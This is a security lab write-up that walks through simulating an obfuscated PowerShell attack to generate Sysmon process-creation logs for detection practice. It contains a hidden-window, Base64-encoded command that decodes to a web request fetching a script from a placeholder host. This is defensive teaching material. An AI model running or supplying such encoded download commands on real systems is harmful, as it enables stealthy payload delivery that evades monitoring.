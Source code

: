# Step 2: Simulating an Obfuscated PowerShell Attack

## Goal

Simulate realistic attacker behavior using PowerShell with obfuscation and stealth to trigger security-relevant logs for detection and triage.

---

## Tools Used

| Tool | Purpose |
|------|---------|
| PowerShell | Built-in Windows scripting tool |
| EncodedCommand | Obfuscates payloads to bypass detection |
| Sysmon | Captures execution events for analysis |

---

## Why Use Encoded Commands?

Attackers often hide their intentions by encoding PowerShell commands using Base64. This helps them bypass basic detection tools and log analysis.

Sysmon can help reveal this behavior **even if the window is hidden** or the command is encoded.

---

## Command Used in This Lab

powershell
    powershell.exe -nop -w hidden -EncodedCommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAAIgBoAHQAdABwADoALwAvAGUAbQBvAGMAawAvAGQAbwB3AG4AcwBjAHIAaQBwAHQAIgA=


## Decoded Command
powershell
    Invoke-WebRequest "http://emock/downloadscript"
This command attempts to silently download a script from a fake (nonexistent) domain, mimicking what many real-world attackers do in the first stages of compromise. 


## MITRE ATT&CK Techniques Mapped
| Technique | Description |
|------|---------|
| T1059.001 | PowerShell Execution |
| T1027 | Obfuscated Files or Information |
| T1105 | Remote File Transfer (simulated) |

## Execution Steps
1. Open PowerShell
2. Paste and run the command:
    powershell -nop -w hidden -EncodedCommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAAIgBoAHQAdABwADoALwAvAGUAbQBvAGMAawAvAGQAbwB3AG4AcwBjAHIAaQBwAHQAIgA=
You won't see anything happen -- that's because of the -w hidden flag

## Outcome
This generates a Sysmon Event ID 1 log (process creation) with: 
    Image --> powershell.exe
    CommandLine --> includes -EncodedCommand
    ParentImage --> often another PowerShell or cmd instance
This log will be the focus of investigation in Step 3.